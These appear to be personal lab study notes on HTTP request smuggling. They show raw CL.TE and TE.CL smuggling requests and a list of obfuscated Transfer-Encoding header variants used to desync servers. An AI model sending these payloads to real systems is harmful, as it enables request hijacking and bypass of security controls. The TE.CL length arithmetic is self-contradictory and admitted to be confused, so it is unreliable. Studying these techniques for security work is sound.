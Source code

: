 ## How To
* Place both headers in the request and manipulate
* Different situations (listed)
* Need to include \r\n\r\n following the final 0

CE.TE
* Front-end use Content-Length, Back-end use Transfer Encoding
* Front-end will check for length
* Back End will look at the chunks -> terminate request with a 0 length chunk, and throw a smuggled request underneath and it will be taken as a new request.
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
* The above will send a GPOST request (lol)

TE.CL
* Front-end use Transfer Encoding, Back-end use Content-Length
* TE will process first chunk number, not the value, so the smuggled value isn't processed by either front or back end.
* Change Content-Length to first size +2 (because ‘num’ + ‘/’ + ‘n’ = 3)

POST / HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

8 <- size of rest of request, written as hex if you want (including /n and not the 0)
SMUGGLED
0
* Still much confusion with this one ......

TE.TE
* Front & Back end support Transfer Encoding, but one server can be induced not to process it by obfuscating the header
* try variations of these:
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

